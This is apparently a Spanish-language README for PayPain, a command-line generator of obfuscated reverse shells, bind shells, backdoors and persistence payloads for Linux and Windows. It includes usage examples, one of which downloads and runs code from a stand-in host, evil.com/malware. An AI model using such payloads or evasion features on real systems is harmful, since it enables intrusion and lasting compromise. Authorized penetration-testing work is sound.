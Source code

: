 # PayPain

## Generador de Payloads Ofuscados para Pruebas de Seguridad

![PayPain Banner](images/banner.png)

## Descripción

PayPain es una herramienta de generación de payloads diseñada para profesionales de seguridad informática. Facilita la creación de diversos tipos de cargas útiles para pruebas de penetración en sistemas Linux y Windows.

## ⚠️ Advertencia Legal

Esta herramienta está diseñada EXCLUSIVAMENTE para fines educativos y pruebas de seguridad autorizadas. El uso indebido de esta herramienta para acceder a sistemas sin autorización es ilegal y puede resultar en consecuencias legales graves. El autor no se hace responsable del mal uso de esta herramienta.

## Características

- Generación de múltiples tipos de payloads (reverse shells, bind shells, backdoors, etc.)
- Soporte para sistemas Linux y Windows
- Ofuscación automática para evadir detecciones básicas
- Opciones de persistencia
- Interfaz de línea de comandos intuitiva

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/Pr1or95/paypain.git
cd paypain

# Instalar dependencias
pip install -r requirements.txt
```

## Uso

### Estructura básica del comando

```bash
python Paypain.py -i <IP> -p <PUERTO> -t <TIPO_PAYLOAD> -s <SISTEMA_OPERATIVO> -o <ARCHIVO_SALIDA>
```

### Ver ayuda

```bash
python Paypain.py --help
```

### Listar payloads disponibles

```bash
# Para Linux
python Paypain.py -l -s linux

# Para Windows
python Paypain.py -l -s windows
```

### Describir un payload específico

```bash
python Paypain.py -d reverse_shell -s linux
```

### Ejemplos de uso

#### Generar un reverse shell para Linux

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t reverse_shell -s linux -o payload.sh
```

#### Generar un backdoor PowerShell para Windows

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t powershell_backdoor -s windows -o payload.ps1
```

#### Generar un payload para descargar y ejecutar un archivo

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t download_execute -s linux -o payload.sh -u http://evil.com/malware
```

## Payloads Disponibles

### Linux
- **Reverse_shell**: shell inverso que se conecta a una máquina atacante
- **Bind_shell**: shell que se vincula a un puerto en la máquina objetivo y espera conexiones
- **Download_execute**: Descarga y ejecuta un archivo de una URL remota
- **Python_backdoor**: backdoor en Python que establece una conexión con la máquina atacante
- **PHP_backdoor**: backdoor en PHP que establece una conexión con la máquina atacante
- **Bash_backdoor**: backdoor en Bash que intenta conectarse periódicamente a la máquina atacante
- **Cron_persistence**: establece una tarea cron para ejecutar periódicamente un shell inverso

### Windows
- **Reverse_shell**: shell inverso en PowerShell que se conecta a una máquina atacante
- **Bind_shell**: shell PowerShell que se vincula a un puerto y espera conexiones
- **Download_execute**: descarga y ejecuta un script PowerShell de una URL remota
- **Powershell_backdoor**: backdoor en PowerShell que intenta conectarse periódicamente a la máquina atacante
- **VBS_backdoor**: backdoor en VBScript que ejecuta un payload PowerShell oculto
- **Registry_persistence**: establece persistencia mediante el registro de Windows para ejecutar un payload al inicio de sesión
- **WMI_persistence**: establece persistencia mediante tareas programadas de Windows

## Capturas de Pantalla

![Imagen 1](images/img1.png)
![Imagen 2](images/img2.png)
![Imagen 3](images/img3.png)

## Contribución

Las contribuciones son bienvenidas. Por favor, sigue estos pasos:

1. Haz un fork del repositorio
2. Crea una nueva rama (`git checkout -b feature/nueva-funcionalidad`)
3. Haz commit de tus cambios (`git commit -am 'Añadir nueva funcionalidad'`)
4. Sube los cambios a tu rama (`git push origin feature/nueva-funcionalidad`)
5. Abre un Pull Request
